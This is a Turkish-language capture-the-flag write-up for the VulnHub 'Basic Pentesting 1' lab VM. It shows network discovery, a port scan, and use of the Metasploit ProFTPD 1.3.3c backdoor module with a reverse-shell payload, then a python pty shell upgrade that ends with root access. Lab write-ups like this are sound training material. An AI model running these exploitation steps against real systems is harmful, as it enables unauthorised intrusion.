





# VULNHUB BASIC PENTESTING 1 WRITEUP

## Makine Kurulumu 
Makineyi kurmak için https://download.vulnhub.com/basicpentesting/basic_pentesting_1.ova dosyasini indirip virtualbox ı kurduktan sonra .ova dosyasına çift 
tıkladıyıp ağ olarak köprü ağını seçmeniz yeterli (bu sayede makine direk local ağınıza bağlanıcak). 

## Çözüm Adımları 
Makinenin ip sini öğrenmek için netdiscover aracını kullanıyoruz: 

```bash
netdiscover 
```



ip yi tespit ettikten sonra rustscan aracı ile port taraması başlatıyoruz: 
```bash
rustscan -a 192.168.1.60 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 






Tarama sonucunda 21 portunda ProFTP 1.3.3c servisinin çalıştığını görüyoruz. Bu yazılım üzerinde bilinen bir zafiyet olup olmadığına bakmak için metasploitte 
arama yapıyoruz: 

```bash
msfconsole -q
```
-q metasploiti bannersiz daha hızlı açmayı sağlar 

```bash
search proftp
```



Yaptığımız arama sonucunda bu sürüm için metasploitte bir backdoor olduğunu görüyoruz . Exploiti çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash
use 17
```
```bash
set rhosts 192.168.1.60
```
```bash
set rport 21 
```
```bash
show payloads
```
```bash
set payload 4 
```
```bash
set lhost 192.168.1.59
```
```bash
set lport 1337 
```
```bash
run 
```

Ve içerdeyiz. Shellimizi interaktif hale getirmek için aşağıdaki python kodlarını kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz . Kim olduğumuzu kontrol ettiğimizde ise root olduğumuzu görüyoruz ve privilege 
escalation yapmamıza gerek kalmamasının mutluluğu içerisinde odayı bitiriyoruz. 


